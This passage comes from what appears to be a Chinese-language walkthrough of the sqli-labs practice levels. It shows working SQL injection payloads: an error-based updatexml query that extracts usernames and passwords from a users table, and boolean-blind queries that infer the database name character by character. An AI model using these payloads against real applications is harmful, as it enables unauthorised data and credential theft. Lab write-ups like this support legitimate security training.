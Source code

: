   ![image-20250308102939599](https://gitee.com/PUqicnda/img/raw/master/20250308102939723.png)

6. 查数据

   ```
   ?id=1" and updatexml(1,concat(1,(select group_concat(id,username,0x7e,password) from users)),3) --+
   ```

   ![image-20250308103135840](https://gitee.com/PUqicnda/img/raw/master/20250308103135947.png)

   ```
   ?id=1" and updatexml(1,concat(1,(select concat(id,username,0x7e,password) from users limit 0,1)),3) --+
   ```

   ![image-20250308103444516](https://gitee.com/PUqicnda/img/raw/master/20250308103444603.png)

   ```
   ?id=1" and updatexml(1,concat(1,(select concat(id,username,0x7e,password) from users limit 2,1)),3) --+
   ```

   ![image-20250308103757902](https://gitee.com/PUqicnda/img/raw/master/20250308103757965.png)

# Less-7

**布尔盲注**

1. 第七关和第六关有所不同，输入?id=1'会报错，而id=1和id=1"时正常，说明id=1'有报错注入，这时候我们可以输入id=1') --+发现依然报错，最后尝试id=1')）--+闭合成功

   > 可尝试的有id=1’)、id=1‘))、id=1’)’、id=1’))’

   ![image-20250308104305924](https://gitee.com/PUqicnda/img/raw/master/20250308104306018.png)

2. 只有ture和false两种情况，只能先确认数据库名长度，再分别确认数据库名字中的单个字符。

   ```
   ?id=1')) and length(database())>=8 --+
   ```

   大于等于9报错，大于等于8正确，说明数据库名长度为8

   ![image-20250308105458845](https://gitee.com/PUqicnda/img/raw/master/20250308105458906.png)

3. 确定数据库名

   ascii()函数：返回字符的ascii码，substr(string,start,end)函数：截取字符串

   ```
   ?id=1')) and ascii(substr(database(),1,1))>115--+  #报错
   ?id=1')) and ascii(substr(database(),1,1))>114--+  #未报错
   ```

   ![image-20250308131341679](https://gitee.com/PUqicnda/img/raw/master/20250308131341750.png)

   ![image-20250308131928277](https://gitee.com/PUqicnda/img/raw/master/20250308131928354.png)
